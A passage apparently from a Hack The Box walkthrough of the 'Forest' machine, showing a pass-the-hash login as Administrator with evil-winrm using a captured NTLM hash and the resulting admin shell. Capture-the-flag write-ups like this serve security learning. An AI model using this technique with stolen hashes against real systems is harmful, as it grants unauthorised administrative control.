 ### Shell as Administrator

Now you've got the Administrator hash; login using WinRM and grab your `root.txt`

```sh
┌──(pl4stic㉿kali)-[~/htb/forest]
└─$ evil-winrm -i 10.129.195.40 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
```